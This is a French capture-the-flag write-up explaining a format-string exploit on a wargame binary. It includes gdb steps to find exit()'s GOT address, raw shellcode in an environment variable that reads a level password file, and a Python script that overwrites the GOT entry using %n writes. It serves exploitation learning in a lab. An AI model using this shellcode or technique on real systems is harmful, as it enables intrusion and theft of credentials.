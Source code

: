 En examinant le binaire, nous pouvons voir qu'un appel a printf est effectue puis juste apres, un appel a exit.
Le printf ne prenant en parametre seulement notre entree (dans un buffer de 100 bytes) nous pouvons en deduire
qu'une faille format string est presente dans le programme. Pour en avoir le coeur net il suffit d'envoyer
"%x" au binaire, et de voir si une addresse de la stack s'affiche. C'est le cas. Notre programme est 
donc vulnerable aux formats strings.

Le flag du user 06 n'est pas present sur la stack (comme lors d'un precedent level), inutile donc de dumper la memoire.
Nous ne pouvons pas ecraser EIP, car un appel a exit() est fait juste apres notre appel a printf(). 

Un moyen efficace d'exploiter une format string suivie d'un appel a exit(), est d'ecraser l'adresse GOT (Global Offset
Table) de l'appel systeme exit() pour la remplacer par l'adresse d'un eventuel shellcode stocke sur la stack. (la stack
etant executable ici...)

Commencons par recuperer l'adresse nous permettant de reecrire sur la GOT :

	$ gdb level05
	$ disas main
	$ disas 0x8048370
	$ x 0x80497e0

Nous avons donc l'adresse necessaire: 0x80497e0

Maintenant nous allons stocke notre shellcode dans une variable d'environnement et recuperer son adresse (soit avec gdb soit avec getenv.c)

	export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")
	
Maintenant il va falloir reecrire l'adresse 0x80497e0 par celle de notre shellcode. Nous devons ecrire 2 bytes par 2 bytes plutot que les 4 bytes d'un coup. Cela prendra beaucoup moins de temps. 

Le plus propre est d'utiliser python pour creer son exploit, avec la librairie struct.
	
/Ressources/exp.py : 

	import struct

	EXIT_PLT = 0x80497e0
	SHELLCODE = 0xffffde31

	def pad(s):
		return s+"X"*(100-len(s))

	exploit = ""
	exploit += struct.pack("I", EXIT_PLT)
	exploit += struct.pack("I", EXIT_PLT+2)
	exploit += "BBBBCCCC"
	exploit += "%4$56935x"           # 2 derniers byte de l'adresse de notre shellcode (en decimal) auquel on soustrait 25 (padding)
	exploit += "%10$n "*10
	exploit += "%8987006x"           # bidouiller jusqu'a obtenir 0xffff
	exploit += "%11$n"*10

	print pad(exploit)

